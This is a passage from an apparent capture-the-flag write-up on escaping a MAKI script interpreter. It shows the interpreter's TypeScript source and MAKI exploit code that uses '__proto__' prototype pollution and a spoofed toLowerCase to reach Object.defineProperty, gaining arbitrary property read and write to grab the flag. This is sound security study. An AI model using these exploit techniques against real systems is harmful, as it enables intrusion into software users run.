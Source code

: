 ```typescript
// maki/interpreter.ts
case 24:
case 112: {
  const methodOffset = command.arg;
  const method = this.methods[methodOffset];
  let methodName = method.name;
  const returnType = method.returnType;
  const classesOffset = method.typeOffset;
  methodName = methodName.toLowerCase();

  const guid = this.classes[classesOffset];
  const klass = this.classResolver(guid);
  if (!klass) {
    throw new Error("Need to add a missing class to runtime");
  }
```

Note the call to `methodName.toLowerCase()`. We can call `Object.defineproperty`, but not `Object.defineProperty`! If only we had a `name` whose `toLowerCase` call returns an arbitrary value.

It turns out we can actually do that fairly easily. We can construct an array with a single element, then set `toLowerCase` to `Array.prototype.toString`. For an array with a single element, that will result in just returning the result of `toString` on the first element, which returns the value as is:

```maki
BitList fakeNameContainer = new BitList;
fakeNameContainer.setitem(0, "defineProperty");
fakeNameContainer.setitem("toLowerCase", fakeNameContainer.getitem("toString"));
grabber.setitem("__proto__", fakeNameContainer);
Object fakeName = grabber.getitem("_items");
```

Calling `toLowerCase` on `fakeName` will return `"defineProperty"`, exactly what we want. Applying this technique allows us to call `Object.defineProperty`, which is enough to get arbitrary property read and writes.

### Grabbing the Flag

Now that we have access to `Object.defineProperty`, we can use it to read arbitrary properties. A quick example:

```maki
BitList grabber = new BitList;

// construct a { value: cfg } to be passed to defineProperty
BitList obj13b = new BitList;
obj13b.setitem("value", cfg);
grabber.setitem("__proto__", obj13b);
Object obj13 = grabber.getitem("_items");

// use defineProperty to replace the _items of a BitList with `cfg`
// (we corrupt the call to onDownloadFinished to point to defineProperty)
BitList obj11 = new BitList;
fakeSystem.onDownloadFinished(obj11, "_items", obj13);

// we can now read arbitrary properties of cfg directly, without any proto shenanigans
Object uiRoot = obj11.getitem("_uiRoot");
```
